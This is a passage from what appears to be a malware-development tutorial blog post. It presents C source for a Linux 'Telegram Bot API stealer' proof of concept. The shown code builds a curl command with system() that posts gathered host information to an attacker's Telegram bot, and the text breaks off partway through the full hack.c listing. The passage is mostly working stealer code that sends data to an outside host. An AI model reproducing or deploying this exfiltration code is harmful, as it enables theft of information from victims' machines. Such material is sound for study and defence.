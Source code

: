 So, our `sendToTgBot` is looks like this:    

```cpp
// function to send message via Telegram Bot API
int sendToTgBot(const char* message, const char* botToken, const char* chatId) {
  // worst scenario: for earch byte %HH -> *3 + 1
  char enc[MSGSZ * 3 + 1];
  if (url_encode(message, enc, sizeof(enc)) != 0) {
    fprintf(stderr, "url_encode: output buffer too small\n");
    return 2;
  }

  char command[8192];
  // encoded (safe encoded?)
  int n = snprintf(command, sizeof(command),
    "curl -sS -X POST https://api.telegram.org/bot%s/sendMessage "
    "-d chat_id=%s -d text=%s",
    botToken, chatId, enc);
  if (n <= 0 || (size_t)n >= sizeof(command)) {
    fprintf(stderr, "snprintf: command truncated\n");
    return 2;
  }

  puts (message);
  int rc = system(command);
  // system returning status waitpid
  if (rc == -1) return 127;
  if (WIFEXITED(rc)) return WEXITSTATUS(rc);
  return 126;
}
```

Final full source code is looks like this `hack.c`:    

```cpp
/*
 * hack.c
 * simple linux sysinfo 
 * Telegram Bot API stealer (+stdout PoC)
 * author: @cocomelonc
 * https://cocomelonc.github.io/linux/2025/10/09/linux-hacking-7.html
 */

#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <ctype.h>
#include <unistd.h>
#include <sys/utsname.h>
#include <pwd.h>
#include <errno.h>

#define BUF128 128
#define BUF256 256
#define BUF512 512
#define MSGSZ  2048

// rfc 3986 ???
static int url_encode(const char *src, char *dst, size_t dstsz) {
  static const char hex[] = "0123456789ABCDEF";
  size_t j = 0;
  for (size_t i = 0; src[i] != '\0'; i++) {
    unsigned char c = (unsigned char)src[i];
    if (isalnum(c) || c == '-' || c == '_' || c == '.' || c == '~') {
```